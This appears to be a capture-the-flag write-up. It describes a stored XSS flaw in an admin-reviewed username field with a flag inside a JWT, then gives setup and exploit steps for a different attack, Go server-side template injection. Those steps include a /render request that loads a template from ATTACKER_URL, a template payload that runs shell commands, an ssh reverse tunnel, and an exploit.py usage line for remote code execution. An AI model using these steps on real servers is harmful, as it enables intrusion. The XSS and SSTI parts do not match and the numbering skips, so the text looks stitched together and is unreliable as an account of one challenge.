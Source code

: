 # XSS > CDN 

## website

<img src= "cursed_party_website.png">

## Description

Anytime we see "this will be reviewed" "stored for review" Admin will review" we can think XSS attack.
Also, the Docker file installs google chrome, which potentialy indicates client-side exploit.
After reviewing the source code, we can see that on the admin page. We notice the username field is vulnerable to HTML injection because it is piping the user's input to 'safe' without any sanitization.
We can also see that the flag is inside of the JSON Web Token(JWT). So we need to get the JWT in order to get the flag. 
After inspecting a request, we also see that a CDN is being used in the Content Security Policy.
I used csp-evaluator to analyze the weaknesses of this content security policy(CSP):
<img src= 'csp.png'>
## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injectiony in the web application. It sends a GET request to a specified vulnerable URL, loading and executing our attacker-controlled template on the target server, resulting in remote code execution. 
   ```python
   python exploit.py http://target-server.com http://attacker-server.com/attacker-template.txt
```
## More Information

[SSTI in GO](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)
